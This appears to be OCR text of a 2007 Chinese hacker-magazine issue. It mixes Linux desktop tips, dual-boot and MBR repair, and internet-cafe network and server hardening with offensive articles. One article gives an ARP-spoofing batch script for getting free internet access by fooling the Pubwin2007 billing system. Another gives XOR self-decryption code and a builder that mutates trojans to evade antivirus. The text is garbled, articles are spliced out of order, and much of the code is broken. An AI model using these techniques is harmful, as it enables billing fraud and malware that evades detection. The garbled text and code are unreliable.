用户最关心的就是 QQ 了，Ubuntu 能不能上 QQ？答案当然是可以！不过支持得不好，Ubuntu 下面最多只能聊天，不能进行 QQ 的其他附加项目，比如 QQ 空间，QQ 游戏此类的，因为 QQ 是个闭源的，腾讯公司也没有放出 Linux 下面的客户端，毕竟商业公司利益为先，现在 Linux 桌面用户还不是很多，作为一个商人也没有必要关注这 0.0X% 的桌面用户。Linux 下的 QQ 也不少，有 Java 版本的 LumaQQ，有 Gtk 的 Pidgin，Qt 的 eva，默认的 Ubuntu 也带的是 Pidgin。Pidgin 的中文意思和上游有些，意思是“即时通讯程序”，即还是 GAIM，是一个支持多种协议的 IM 软件，能支持 GTalk、ICQ、IRC、MSN、QQ、Yahoo 等十几种国内外常见的协议。也就是说，你只要开一个程序就能同时上 N 个账号，而且可以同时登录 N 个相同协议的账号，比如 5 个 QQ，5 个 MSN，像我同时登录六个 MSN，三个 Gmail，一个 Yahoo，一个 IRC，一个 QQ，如图 7，真是挂升级杀人必备之利器。


Linux 下面有的聊天方式是 IRC 而不主流的方式，支持方式在 modern 时代，在 Windows 平台上也是非常流行的，IRC 对服务要求也很简单，即用本身的一个聊天室随时可以同时上千人，这个是当今其他聊天方式所不能具备的。Pidgin 也支持这种协议，这里推荐 XChat，如图 8 所示。直接终端下 `sudo apt-get install xchat` 即可安装。


下载软件就没有 Windows 平台上丰富多彩了，其实采用多线程下载的方法是很不道德的，增加了服务器的压力，所以速度也不可以的话还是不多线程下载的好。Linux 下最基础的下载软件是 wget，稳定但是单线程，它可以做下载方面的任何事情，比如说镜像整个站点，或者选择某些特定的文件下载，一个命令加上不同的参数可以完成多种功能，这就是命令行的魅力。实在需要多线程的下载软件可以试试 axel，就像开了 5 个线程，速度也不错，当然 FF 自带的插件 Flashgot 也能多线程下载，而且和浏览器结合得也很漂亮。ftp 下载的话推荐使用 FileZilla，如图 9，Windows 平台和 Linux 平台都行，而且能自动识别 ftp 服务器的编码，这一点很多 ftp 软件都不能做到，上传上去在客户端是正确的但是到了服务器端变成了乱码，或者服务器上看很正常，客户端成了乱码，FileZilla 可以避免这个问题。


E-mail 的话，Ubuntu 提供了 Evolution，功能不亚于 Outlook，这里就不再多说了，还有在线视频，现在非常流行 flv 的流媒体视频，可以通过安装 flash 的插件来得到支持。

flashplugin-nonfree 这个是 Adobe 官方的插件，还有一个 mozilla-plugin-gnash 是开源的插件，建议用前面的。其他浏览器中可以用 ioterm-mozilla 来试做，不过支持的不一定完美，毕竟很多在线媒体没有在 FF 上测试。Linux 下图灵收集过 pppoe 这样的程序基本上没有。还好个人开发了一个跨平台的，叫作 sopcast，因为地址 http://www.sopcast.org/，速度还是不错的，就是节目少了点了。随着 Linux 桌面用户的越来越多，面包会有的，牛奶也会有的，还是希望更多的好的程序能有 Linux 版本。

限于篇幅，其他的诸如自定义的桌面（3D 桌面）、办公软件、游戏、其他常见的软件 Linux 替代等，我们将在以后的文章中讲解。

编辑后记：

这是 Ubuntu 系列文章的第二篇，朋友们对 Ubuntu 学握的怎么样？其实 Ubuntu 安装好以后，配置到基本满足最基本的状态需要的时间比 Windows 下要少很多。基本上只需装些必须的软件包，安装好播放器和解码器。其他日常应用需要的软件，Ubuntu 都没有自带的，跟以前不一样，我们就先这样一一项的文章吧。

# Linux 与 Windows 共存，就这么简单

从本文您可以学到：

- 了解系统的引导过程
- 学会标准配置和修复 Windows 和 Linux 双系统的引导配置

Linux 操作系统以其强大的功能和稳定的性能，越来越受到用户的喜爱。可能很多朋友也不在作者家给在自己的电脑上，运行并维护它。但我们需要先一些 Windows 下的游戏，又不得不使用 Windows。所以，我们的目标是将它们都安装在我们电脑里，根据需要，随时切换操作系统。

我们知道，计算机启动时，先是 BIOS 读取硬盘上第一个扇区的 512 个字节的硬盘分区信息（称之为主引导记录 MBR），然后通过引导装载程序来引导系统。但如果我们先装了 Linux，再安装 Windows，Windows 就会重写“前道”的主要 MBR，破坏了 Linux 的生成 MBR，我们的 Linux 无法正常启动了。本文将以 Red Hat 公司新的企业版 Linux 操作系统 Red Hat Enterprise Linux 5.0 为例，向您介绍如何用 Linux 的引导装载程序来引导 Windows，如何用 Windows 的引导装载程序来引导 Linux，重装 Windows 后怎样恢复引导 Linux 的问题以及怎样恢复 MBR。

## 一、用 Linux 的引导装载程序来引导 Windows

Linux 下常用的引导装载程序有 LILO（Linux Loader）和 GRUB（GRand Unified Bootloader），其中以 GRUB 因为可以引导在 1024 柱面以后的操作系统，我们只要先安装 Windows，然后再安装 Linux，并在安装前的配置阶段，选择“以 GRUB 为引导装载程序”，在引导装载程序的配置内容中，将硬盘中的 Windows 系统分区标记上，就可以达到用 GRUB 来引导 Windows 的目的。

## 二、用 Windows 的引导装载程序来引导 Linux

建议大家使用这招来以引导系统，因为即使你的 Windows 重装后，重写了 MBR，也能正常引导 Linux。由于我们平时使用 Windows 安装生成的 MBR，所以不能先安装一个操作系统都可以，但引导装载程序的配置中不要把 GRUB 安装在 MBR 上，一定是选择 GRUB 安装在 “First sector of boot partition”。图 1 所示是硬盘上 MBR 和引导分区的第一个扇区所在位置。

安装完系统后，由于没有对 MBR 进行修改，现在还无法引导 Linux。有两种方法可以解决这个问题。

### 方法一

将光盘放入光驱，重新启动后又会看见 Linux 的安装画面，如图 2。选择按下功能键 F5，并输入 linux rescue 上的提示。按回车后再出现提示一步操作，直到出现 sh# 的提示符。然后进行下面的操作：

```
输入 chroot /mnt/sysimage 连接 Linux 的分区；输入 mkdir /mnt/c；
一个个拷入；
然后 mount -t vfat /dev/hda1 /mnt/c；将整个分区挂到根目录。
```

三、小知识：硬盘分为 IDE 和 SCSI 两种，Linux 系统中 IDE 设备命名为 /dev/hda

## 三、重装 Windows 后解决引导 Linux 问题

若以前将 Linux 的引导装载程序安装在了 MBR 上，现在由于 Windows 出现故障，需要重新安装 Windows 再会导致 MBR 被修改，这时 Linux 的引导装载程序（GRUB）就没有了，我们只要把原来的 MBR 进行写入方式。

当你在启动菜单中选择了 Linux，引导装载程序会立即启动 Linux。而前面所做的是，Windows 的引导装载程序先拷载 Linux 的引导装载程序（GRUB），再由 Linux 的引导装载程序启动系统。

## 四、恢复 MBR

有时候由于安装了新的操作系统，改变了 MBR，使得系统无法正常启动，这时就要恢复 MBR 了。

恢复 MBR，首先要知道 MBR 里面是什么东西。前面说过 MBR 存在于硬盘第一个扇区内，它可以分配为三部分：前 446 个字节为引导程序，这是能引导系统的部分；接着的 64 个字节就是分区表；最后 2 个字节是 55aa（十六进位标志）。

恢复 MBR 有两种方法：

- 使用 Windows 中的一个分区工具 fdisk.exe，在命令提示符中输入 fdisk /mbr 即可。
- 使用 Linux 中的 dd 命令。装完系统后首先将 MBR 备份下来（仅备份前 446 个字节，后面 44 个字节到第 512 字节保存的是分区表信息），可以在终端中输入 `dd if=/dev/hda of=/boot/mbr.bak bs=446 count=1`（将其命令到硬盘上的 /boot 分区中）。要恢复时要将备份文件拷贝回去，输入 `dd if=/boot/mbr.bak of=/dev/hda bs=446 count=1`。

## 五、总结

本文不是要教你怎样去安装操作系统，而是教你如何恰当的配置引导装载程序，使得系统崩溃时不至于因为无法启动而头痛。在应用时还要根据实际情况，将文中的分区名称做适当的改变。

从本文中你可以学到：

1、从网络架构方面来看网吧的安全  
2、路由和防火墙的配置

一谈到网吧，大家总是把想到了免费上网，怎么加快呢？这个词，不管是技术上的安全，讲网吧安全不是网吧不完全，网吧的网络是一个网络联盟的基本前提。

# 浅谈网吧安全之网络架构

当然，这个做好了，再来谈安全方面会简单多了。闲话也不多说，我们直接进入主题！

## 一、网络架构

首先，我们得根据网吧现有的实际物理位置来做决定这个步骤。当我们设计结构后，我们接下来要做的是什么呢？比如我所在的网吧里，有四个楼层，是划成四个 VLAN 呢，还是划成某

## 二、路由和防火墙的配置

路由器是整个网络的核心，在路由器的选择方面，硬件路由器使用简单方便，但是扩充功能不强，特别是网络扩大或是面对攻击不能很好的提供保护。软件防火墙就是一台普通 PC，可以根据需要适当地增加内存，变换处理器，适用数据处理能力更大的网卡，这里我向大家推荐使用 m0n0 软件路由。m0n0 是基于 FreeBSD 而开发的软件路由器。由于 FreeBSD 有着比 Linux 更高的稳定性、可靠性，所以用 m0n0 来做软件路由是绝对的选择。而且安装配置比 Coyote 更简单，功能更强大，主要支持如下功能：

- 多方面固定 IP 地址支持。
- 支持 PPPoE、DHCP、PPTP、Static 等方式接入。
- 支持无线局域网。
- 支持 DNS 转发、DHCP 服务、SNMP 服务、ARP 代理，支持动态路由。

另外还支持 VPN 服务，可以参看系统的使用内存和 CPU 的占用实时流量查看等强大的防火墙功能以及日志记录。你使用网络中等配置，由于参数要求不高，便宜而且稳定。最理想的是使用 Intel 的 82559 网卡，接下来就要考虑系统的安装，这里以 http://www.m0n0wall.org/ 资料为例进行说明。

它的？为了让事情说得更明白，我把我们园区的架构画了出来，这样能更详细地阐述，所以如图 1。我们把一、二、四楼分别形成一个 VLAN，也就是这三个楼层会连接在一个 VLAN 之内，二楼呢？我们单独把一楼拿出来，四楼中的 B 区和 C 区，采用 TP-LINK 1024V 把每台机子都划成一个 VLAN 当然把几台服务器放在一个区域中，即图中的 V-LAN1。它涉及路由器问题，为什么划这么多的 VLAN？因为一层的 VLAN，它的访问权限要进一步根据 VLAN 角色来划分，也就是说要针对各个楼层环境。对于合并式来讲，ARP 端有系统配置功能，而且一旦形成这样的划分，访问控制就需要在 VLAN 的终端设备中实现，而且要配合交换机进行，如果单纯把多个 VLAN 的机器在一条线上，防火墙难以实现好控制，这样的做法虽然能解决问题，但还会稍微影响网络效果。

假设你把 VLAN 组装起来，放在某个区域中；若某些系统的安全设置一环可以，当然要做到一层一层分隔，局域网内各楼层的互联需要靠路由器来协调。我们在使用中可以做的是将一层的网络与外网分开。这里顺便提一下，如果把一个区域作为一个独立的 VLAN，那么所有设备都以该区域为核心，内部互联就较为紧凑，也更便于管理。实际实施时，可通过交换机的端口映射以及访问控制列表来实现这样的划分。

# 局域网吧安全之服务器的配置

从本文中你可以学到：网吧服务器的安全配置。看了上期的文章大家是不是觉得有点晕呢？感觉一口气操作也不容易，的确，那些东西在实际中又很少能用得上，这里就让大家先看一下该怎样为网吧服务器安全配置做些什么。

文件服务器方面，企业网络安全的需求，服务器的配置分成以下几个步骤：安装服务→为系统进行加固→安装杀毒→关闭不必要的服务→减少软件安装权限→加入服务器管理组→防火墙设置→共享文件夹设置→打印机权限设置→备份还原。系统安全是网络服务器中非常重要的环节，从系统开始就要有安全的概念。本文将重点介绍这一步。

因为是服务器，所以在安全方面和个人电脑不同，既要保证服务的正常又要保证服务的安全。当然了，不同的服务器需要满足不同的要求。这里的服务器我们以 Pubwin2007 为例，后台采用 sql 数据库，程序以本机调用数据库作为本地服务，要求不是很复杂。安全性这块可以，但它和后台页面用 ACG 数据库，井且服务器只开放了 80 端口，日常的更新和维护都是直接在服务器上操作。因为这类配置服务器是别人公司在制作的，我们没有直接参与，因此只是将提一下。接下来讲的就是

这是本文中要介绍的内容，主要是关于如何对系统进行加固、安装软件、调整服务以及设置权限等。通过这些步骤可以把服务器的安全性逐步提高，避免不必要的风险。

工具->安全配置向导。一路 next 直到如图 2 的界面，这里我们只开通 FTP 就行了，其他的不需要装，把 WEB 前面的钩停去掉。

下一步，这里要把 dns 和 dns 注册客户端前的钩去掉，当然如果大家还不是太明白哪些该装，哪些不该装的话，点击那个小三角形，它就会显示这个服务器是什么用的，并且提示你装还是不装，如图 3。

下一步到这里，如图 4。

这里是让你检查这有几十条服务需要开的，什么服务需要关，然后下一步，来到如图 5。

这里千万不要把“跳过这一部分”给勾上了，就是用这个来配置的。继续下一步，来到这里，如图 6。

这里要把 20、123 和 139 给关了。下一步，我们可以看到我们打开了哪些端口，哪些没有开。按下来的按默认的配置就可以了。一路 next 来到如图 7 的地方。

这里要求我们为安全策略文件取个名字，这里随便取，只要自己记得就行了。继续下一步，这里我选择现在应用。这样，我们就应用系统自带的配置向导配置了一个策略。接下来来看防火墙。我们依次打开控制面板->Windows 防火墙，如果你没有启用的话，我们把它调成启用。我打开防火墙例外这个选项，这里就必须已做得了很好的解释：Windows 防火墙正在阻止除下列选定程序和服务之外的人网络连接。添加例外将使部分程序更好的工作，但可能增加安全风险。点击“添加程序”，如图 8。

我是要在虚拟机上测试用的，所以只装了 Symantec Antivirus 客户端加瑞和，所以这里要根据实际的要求来进行改负。点击确定即可。这样，除了这个列表中的程序外，其他程序如果要访问网络的话，就会被系统自带的防火墙给拦下来。这主要是到一个问题就是共享的问题，因为是文件服务器，所以共享是要开的，但是系统自带的默认共享我们一定要禁止。从网上的说法看来，可以通过改注册表来让它彻底关闭，但是我们不想这种做法，因为我们不可能时时刻刻去关注注册表，所以只要从通过改注册表的方法把共享关了的话，我们会更加亲常常。因此我们打算在启动项加一个批处理，每次开机自启动自动删除默认共享。批处理内容如下：

```bat
net share c$ /del
net share admin$ /del
net share d$ /del
```

说明下，你有几个磁盘分区就将依次在后面加上 net share 磁盘分区名$ /del。保存为后缀名为 bat 的就可以了，然后把它放到 C:\Documents and Settings\administrator\「开始」菜单\程序\启动，这样就 OK 了。接下来我们来设置下日志记录和帐户审核。我们依次打开控制面板->管理工具->本地安全策略。先看下密码策略，来到右面，第一个，“密码必须符合复杂性要求”，右键，属性，启用。其它选项的话我也不太会这个是“密码长度最小值”，我们正好也把它调到 10，防止简单的密码数被轻易的可能。我们再来到账户锁定策略，找到“账户锁定阈值”，我们把它定为：三次，点击应用，会弹出个对话框，如图 9。

这里我们按照默认的配置来，点击确定即可。这个策略的意思是：当一个用户在三次登录后没有输入正确的密码，那么接下来的 30 分钟内将禁止此账户的登录。而本地策略中的审核策略由于刚才的安全配置向导就得用了，这里不必再配置了，不过用户权限分配有项需要注意下，我们来到拒绝从网络访问这台计算机，右键，属性，我们把 guest、user 等组或者用户都加上去（这里要根据需求来配）。如图 10。

单击“添加用户或组”，如果你不知道具体的用户名或组的话，可以单击“高级”选项，出现如图11的内容。

单击“立即查找”，就会在下面出现计算机上的用户和组，然后单击你选中的用户或组，依次确定即可（后面的分配总是这样做的，后面的就不再详细地说了）。接下来我们就需要对 IP 策略来做一个防探测的策略。也是在本地安全设置里面，到 IP 安全策略，右键，选择第一个“创建 IP 安全策略”，下一步来到这里，这里这次给策略取个名称以及描述，如图12。

下一步，一直来到这里，我们选择第一项，如图13，完成后会自动弹出个对话框，要求你来编辑它。这里边默认的就不需要了，点击“添加”，会自动弹出安全规则向导，第一步 next 来到这里，如图14。

选中我们刚才创建的“禁止 ping”，会在前面那个图中出现一个黑点，接着点击右边的编辑，会出现 IP 筛选器列表，继续点击右面的编辑，会弹出 IP 筛选器的属性，在“地址”选项中，照如图15这样选择即可。

然后再调到“协议”，我们选择双向的 ICMP 就可确定。回到 IP 筛选器列表，选中我们创建的，单击下一步，来到如图16所示的画面，和前面一样，这里只有一项，然后再编辑，我们在安全措施里面设置成阻止，如图17。

这样就差不多了，接下来就按我前述的操作，操作完以后，会在右面自动生成一个新的 IP 策略，不过这个时候这个策略并没有起到作用，因此我们还要单击它，右键，指派，这样新的 IP 策略才会生效。为了验证一下这个策略是否有效，我在本机上 ping 一下虚拟机，发现 IP 策略果然截断了所有的 PING，如图18。

注意：这里的这个策略双向的，如果你的服务是 ping 其它机器的话，可以去图15中，把最下面的那个检查选项的钩去掉。

好了，接下来我们来讲下权限的分配。因为没有什么特殊的用法，这里我们每个盘中除了 Administrator 这个用户外，其他账户无权访问和写入数据。这里微软又为我们提供了很好好的条件，只要我们的磁盘类型是 NTFS 的，我们就可以很好设置每个盘以及每个文件夹的权限。单击 C 盘 → 右键 → 属性 → 安全。把除了 Administrator 和 System 的用户和组全部删除，然后我们先点击“高级”选项，把下面的用户这些可以应用到了对象的项目中所有子对象的权限都复制到 C 盘，这样 C 盘和 C 盘中的文件夹都会有 C 盘的权限一样，系统会自动更改 C 盘包含的文件夹的权限，如图19。

我们来看看 C:\windows\system32\inetsrv 这个文件夹的权限，如图20。

依然只能有 Administrator 和 System 访问。我们再来看下 E 盘，因为网吧中不可能每个盘都只建立两个账户访问，因为有些游戏得放在服务器上进行更新，所以得有个权限比较低的账户，所以我们不能用权限继承来一下子全部限制死，我们得一个一个设置。我们以 E 盘中的 test 的文件夹为例。右键，属性，选择“权限”，我们看看，下面的账户列表中除了 everyone，但是都完全无权访问。但是我在这一页的说明中，图示这个用户是等于 guest 组的，所以我们把它也删除。重新设置后就可以确定，如图21。

再强调下“安全选项”，这里把 everyone 账户加上去，同样它的权限也只是只读。这里的“高级”选项中把这个文件夹列为“读取”这个选项也只访问这个文件夹，看看它并没有创建一个文件夹时会出现如图22的错误。

其它文件夹的权限设置大体都一样了，这里就不再重复了。

我们做网吧局域网的时候，我们注意 FTP。我们以后发现的一些服务器及应用程序→FTP 站点→右键→属性，然后在权限部分，选择“读取”而不是“写入”。这里点击“安全”选项，选择“高级”选项，再把这些用户的权限都设置为“读取”。

# 利用 ARP 欺骗实现免费上网

从本文中你可以学到：如何利用 ARP 欺骗实现免费上网

自从和空气大哥合作等《网吧黑客一点通》之后，我都比较少去研究网吧破解这个模块了，因为那段时间很少跟网吧打交道。现在在我交了点电费之后的这段，我又发现了一个可以免费上网的方法，现在就拿出来大家分享一下，原理是利用 ARP 欺骗来实现免费上网的。我的测试环境是 Pubwin2007 收费系统，此收费系统在我们所在地的网吧比较多，下面我们就以这套系统为例。

| IP 地址 | MAC 地址 |
|---|---|
| 192.168.1.198 | 00-16-76-d4-ce-2e |
| 192.168.1.199 | 00-07-e9-0a-73-eb |
| 192.168.1.233 | 00-e0-4d-ac-14-76 |
| 192.168.1.234 | 00-e0-4d-ac-14-71 |
| 192.168.1.235 | 00-e0-4d-ac-13-63 |

图22 拒绝访问对话框

图23 RDP-TCP 属性

在右边找到 portnumber，然后右击它进行编辑，这里我们最好把端口改到 10000 以上。然后再到用户组 Remote Desktop Users 里面，把 Administrator 以外的用户全部删除。还没完，我们还要对它进行设置，我们依次展开控制面板—管理工具—终端服务配置，找到连接器一项，然后点击右边的 rdp-tcp，在这个属性中我们还要设置，单击权限，把除了 Administrator 以外的用户和组删掉。

大家可不要害怕，虽然把 Remote Desktop Users 组给删了，可是用 Administrator 还是可以远程登录的哦！如果是双网卡，继续将一个网卡作为登录的；好了，服务器的配置步骤就结束了，不过其中的细节提示不止这些，还有好多小方面的技巧那还是有想起到，只要大家多一个心眼，多点安全意识，那么别人看见你服务器的可能性就会减小许多。总结了下，提出两点想法：

- 要用掉硬件软件那些软件做些硬件分身的防御措施
- 尽量用较长的特殊字符，减少你第三方软件！

一个很好的想法是很重要的，做完了上面的配置也不一定能保护你的服务器绝对安全了，每天习惯性的对服务器进行检查、更新等方式也是必要的。如果大家从这篇文章中学到了一点技巧，或者给你带来了点启发，那么本文就值了。你有有什么不清楚的，可以到论坛和我交流，我的 ID 是冰啸的原点！

编辑后语：

离离点对不灭了，朋友们就可以发现你的安全意识还不错的，而且也在这方面有一套自己的思路。文章里也提的很好，尽量用较长的特殊字符，而少较多第三方软件！所以说，越简单越是越好的字样对于某些情况还会出现意想不到的惊喜，只有不断的努力，才能做到更好，更安全！

顾名思义我们要欺骗这些电脑，我们就要想它们制作一些假的 MAC 地址，使它们不能正常和我这台机通讯。现在先来看一下处理吧：

```bash
arp -d *
arp -s 192.168.1.198 00-16-76-d4-ce-2e
arp -s 192.168.1.199 00-07-e9-0a-73-eb
arp -s 192.168.1.233 00-e0-4d-ac-14-76
arp -s 192.168.1.234 00-e0-4d-ac-14-71
arp -s 192.168.1.235 00-e0-4d-ac-13-63
```

只要将这些代码保存成 BAT 文件，运行之后就可以达到欺骗 pubwin2007 收费系统的效果了，如果你用的是公安卡号登记的系统，当然也不能忘记掉，现这个 pubwin2007 收费机就会自动下线。收费机就是这个台机的机器卡，如果不变更内容，就要修改成该机的真实 MAC 地址。

后记：

经测试，pubwin2007 最新版本不存在这个问题，因为他们加入了自订制的 ARP 保护了，但 ARP 命令在 CMD 里面不能奏效，只要用这一个命令就显示错误。

编辑点评：

本次利用 ARP 欺骗实现免费上网，思路还可以，不过其中有不妥的地方，不去讲为什么有的内容会出现这么奇怪的现象在作者如果真能：在开机时的机由任务管理器中把 pubwin2007 进程关闭了，那么就能够稳定地进入登录界面了，只需要在登录机的时候和聊天就可以了。

# Perl 自动录中器[1]

从本文您可以学到：

简单了解 Perl 及模块的使用

Perl 中最强大的莫过于它的模块支持了。Perl 有着广泛的模块用户群，并通过 CPAN（www.cpan.org），不断地完善这项共享。其中也体现了一种网络的自由互助的精神，为我们提供了一些更好的方法，避免了不必要的重复工作。比方说，我们想用 Perl 写一个 QQ 登录程序提升我们的 QQ，比赛了许多个大开发。我们并不是要写成一个好好的登录协议吗？事实上是不用的，只要我们到 CPAN 上搜索，就可以找到现成的 QQ 模块 Net-OICQ。只需在程序中导入，简单地调用就 ok 了。所以，学习 Perl，学会使用模块是很重要的，这就离不开模块的基本安装方法。

## 模块的安装

如果你安装了 ActivePerl，那么事实上你的系统中它已带安装了许多常用模块。当然一些其他非常用的模块，我们要使用时还是必须下载安被的，就象上面提到的 Net-OICQ 模块。模块的具体安装过程可以参考《ThinkInPerl》的 4.1（手动安装模块）。

## 模块导入

每个调用模块的 Perl 文件，都可以在文件头找到此类似字样：

```perl
#!/usr/bin/Perl
use IO::socket;
use Threads;
use strict;
use warnings;
```

这就是模块的导入语句，我们一般使用“use 模块名;”语句格式导入模块，自然也只有在模块导入后我们才可以使用模块的功能，因而这一步是必要的。

## 模块的调用方法

对大多数的模块是采用 new() 方法来建立操作对象句柄，比如：

```perl
# 线程 threads 模块，my $thread_1 = threads->new(\&scan,\@p_keys[0..$s-1]);
# IO::socket，INET 模块，my $socket_1 = IO::Socket::INET->new( PeerAddr => $ip,
# PeerPort => $ports[$key], Proto => 'udp' );
```

一般格式是：$变量 = 模块名->new(参数列表)，当你不同的模块有不同的调用参数以及其他操作语句，在使用时，我们还要参考该模块的说明文档，可能会有 ActivePerl 的安装目录下找到 /html/index.html，之后在这里找到 Modules 和所附安装的所有模块的说明文档，如图1所示。这些英文资料也同样不难，因为英文不太好的就借助于工具，微软的翻译系统也可在这里找到并帮助理解，在使用中将为你带来极大的帮助。

完成一般的说明介绍，我们进入今天的实例：简单多线程端口扫描器。为了方便，省力，程序的结构，整个程序的功能不外乎是连接到远程端口，判断端口是否开放。采用多线程是为了充分利用带宽资源。利用多线程的就是要有一个固定集成的连接函数，并通过线程模块同时调用多次进行扫描，之后输出结果。其中会用到 IO::Socket::INET 和

图1 模块的说明文档

```perl
# part 1
# use IO::socket; use Thread; use strict; use warnings; use Tk;
my @ip_ports = qw(...);
my $sip = $ARGV[0];
# part 2
print "\nportscanner...\n\nloading ports.txt";
open(FILE,"ports.txt");
my @data = <FILE>;
chomp(@data);
close FILE;
splice(@data,0,1);
my %ports = @data;
# part 3
my @p_keys = keys %ports;
my $s = int(($#p_keys+1)/3);
my $y = int(($#p_keys+1)%3);
# part 4
print "creating threads...\n\n";
my $thread_1 = threads->new(\&scan, \@p_keys[0..$s-1]);
my $thread_2 = threads->new(\&scan, \@p_keys[$s..$s*2-1+$y]);
my $thread_3 = threads->new(\&scan, \@p_keys[$s*2+$y..]);
$thread_1->join();
$thread_2->join();
$thread_3->join();
# part 5
sub scan {
    my @keys = @_;
    foreach my $key (@keys) {
        my $socket = IO::Socket::INET->new(PeerAddr => $ip,
            PeerPort => $ports{$key},
            Proto => 'udp');
        if($socket){
            print "$key $ports{$key} \n";
        }
        close $socket;
    }
}
```

## 【快闪初编】

网络编辑的常用模块，用法是大家都应熟知的，具体参数设置可以参考《黑客手册》今年的第五期我讲的第一篇 Perl 文章《教你用 Perl 编写远程控制程序》。还是放个运行图吧，如图2、3所示。看到这了，有什么问题，可以与我交流，别找123、qq55373338。

【作者授权的】简易多线程扫描器的代码已经放在 [行动中]

# 实现生成木马的自动变异

从本文您可以学到：1. 简易的文件加密方式 2. 内存文件修改

由于前几天在学校图书馆，找到一本病毒分析的书，让我灵感大友，于是就有了此文。下面请听我一一道来。在现在这个杀毒软件横行的时代，木马没有没几天，就会被各大杀毒软件盯上，然而小黑们就只能无奈地饮恨，当然不免常见，加持着加壳、加密、改特征码、代码等，使得大家杀之不得了。可没用多久，又被杀了，这种情况我以前也曾常遇到。那么我们能不能做到每次生成的木马都不一样呢？这篇将讲木马变异程序的加密产生新的代码，唯一的办法就是不断编写，每次都用不同的密钥对代码进行加密，但是也会因为代码在内存中是否能运行的，所以运行加密代码之前就一定要解密。具体过程如图1所示。

解密。下面就来实现解密部分，这里用的加解密算法是异或，异或一次是加密，异或两次是解密，比如97和61异或一次的结果是92，这是加密的过程；再把92和61异或之后的结果97，这就是解密的过程。在这个加解密过程中，密钥就是61。当然你也可以用更强悍的加解密算法。在内存中实现解密，那么我们还需要知道主程序代码的起始位置和大小，给一个字节一个字节进行解密，这里我用汇编实现，用汇编来处理会更加灵活，代码如下：

```asm
// 计算 MainCode 函数地址
lea eax, MainCode
mov MainCodeAddr, esi
// 计算 Decoded 函数地址
lea eax, Decoded
// 计算 MainCode 函数的大小
sub eax, esi
mov SizeOfCode, eax
```

```asm
// 异或解密，BL 中存的是密钥
xor byte ptr[esi], BL
inc esi
dec eax
jne decode
```

# 【快码加强】— 2007.12 非安全编程手册

到这里也许你会觉得一切都完成了，但是我们还有一步忘做了，由于我们现在修改的程序内存中代码段的数据，而这些内存页是不可写的，那么我们在进行这些内存操作之前还必须改变内存页保护属性，所幸比较简单，只需要调用 VirtualProtectEx 及函数即可。下面我们来看看完整的解密代码吧：

```c
DWORD SizeOfCode, MiniCodeAddr, DecodedAddr;
int Decoded();

// 密钥，做密钥时取第一个字节
char MyCode[256] = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...";
DWORD oldProtect;
HANDLE hProcess = GetCurrentProcess();
// 改变内存页属性为可读写，省掉了和谁主进程代码的大小所以没少太大，0x1000
VirtualProtectEx(hProcess, &MainCode, 0x1000, PAGE_READWRITE, &oldProtect);

// 读到MainCode函数地址
lea esi, MainCode;
mov MiniCodeAddr, esi
// 7得到Decdoded的数据地址
lea eax, Decoded
mov DecodedAddr, eax
// 计算MainCode函数的大小
sub esi, eax
mov SizeOfCode, eax
xor BL, BL
mov BL, MyCode[0]
// decode
xor byte ptr [esi], BL
inc esi
dec eax
jne decode
poped
return 0;
```

这时你运行这个程序会报如图 3 所示的错误。这是因为主体代码并没有经过加密，从异或算法的特点可知，左内存中对这有加密的代码解密的结果就当与对其进行了解密，加密后的代码仍然会报错。

## 加密

服务端到这里就写完了，那么下面我们就来实现客户端的编写，客户端的主体功能就是对服务端的主体代码进行加密，这里服务端要以资源的形式包含在客户端中。先建立一个 MFC 工程，如图 4 所示。

为了方便可以直接修改工程目录下 .rc 和 Resource.h 文件，把服务端以资源的形式导入，在 rc 文件下添加命令如下：ID_MAGICDEL_EXE C_BINARYTYPE ma.exe，ma.exe 表示服务端的文件名，要放在工程目录下。在 Resource.h 文件下再添加命令如下：#define ID_MAGICDEL_EXE 100 和 #define RC_BINARYTYPE 911。编辑后，ma.exe 就会以资源的形式包含在工程中，我们就可以调用资源处理的 API 函数对其进行处理了。首先要把资源文件写到一个内存空间中，而内存中的数据进行操作，总比对文件进行操作来得快和方便。具体代码如下：

```c
// 查找资源
HRSRC hrcs = FindResource(NULL,
    MAKEINTRESOURCE(ID_MAGICDEL_EXE),
    MAKEINTRESOURCE(RC_BINARYTYPE));
// 找到资源到存储器
HGLOBAL hglobal = LoadResource(NULL, hrcs);
// 锁定资源
void* psrc = LockResource(hglobal);
// 得到资源大小
DWORD size = SizeofResource(NULL, hrcs);
// 申请内存空间
char* hmem = (char*)malloc(size + 1);
DWORD nsize;
// 把资源写入内存
WriteProcessMemory(GetCurrentProcess(), hmem, (PCVOID)psrc, size, &nsize);
```

这样我们就把资源文件写入到我们指定的内存空间了，hmem 变量就指向这个内存空间的起始位置的指针，也就是指向了服务端文件开始的位置。那么下面我们就要对它的主体代码位置进行修改。还得到前面我们说到的 MianCodeAddr（主体代码函数的地址）。这里很清楚得到了 MianCodeAddr / 体内的地址是在内存中偏移地址，所以应该加上基地址 0x401000。由于这里是在内存中的偏移地址，因此还加上了 base 400000h，那么 401000h－400000h 就是文本中主体代码的偏移地址 1000h。得到了这个偏移地址，要定位到此时的主体代码的位置也就容易多了，只要用 hmem 变量指向内存空间的地址加上 1000h 就是主体代码的起始位置了。这个问题解决之后，加密过程其实就简单的过程是差不多的，当然都是用异或算法实现的。

那么还剩下的问题就是怎么生成随机密钥，这里我把它写成了一个函数，代码如下：

```c
// 生成一个随机字符
char* AorChar(char* c)
{
    char a[16];
    int i;
    for(i = 0; i < 16; i++)
        c[i] = rand();
    srand((unsigned)time(NULL));
}
```

# 正版安全黑客手册 2007.12 -> [快码加编]

这样每次调用这个函数都会生成一个随机的字符作为密钥。当然我们还需要把 MyCode 定理中一连串 A 的第一个字符改成密码的动态，使我们自己的代码在用户搜索的方式来定位这一连串中 A，然后把每一个字符改成随机密码，数据修改函数如下：

```c
//搜索内存中的信息，并将其修改
//hmem：要查找的结构地址，len：要查找的内存大小，from：要查找的字符指针。要修改成的内容
a = 0;
char buf[100], chart[100], *chang,*
result,*result2;
char old='\0';
for(int i=0;i<len;i++){
    char* ch=(char*)hmem+i;
    //比较找到的字符和要查找的字符
    if(strcmp((char*)ch,chart)==0)
```

当我们还需要把 MyCode 定理中一连串 A 的第一个字符改成密码的动态的思路下，我们用程序的方式来定位这一连串中 A，然后把第一个字符改成随机密码，搜索修改函数如下：

所有的这些操作完成后，就可以把这个内存空间中的数据写入到文件中了，这样就生成了随机加密后的木马程序，实现了生成木马的自动变异。这里我把所有的加密过程写成了一个函数 CodeFile。具体请看完整源码。

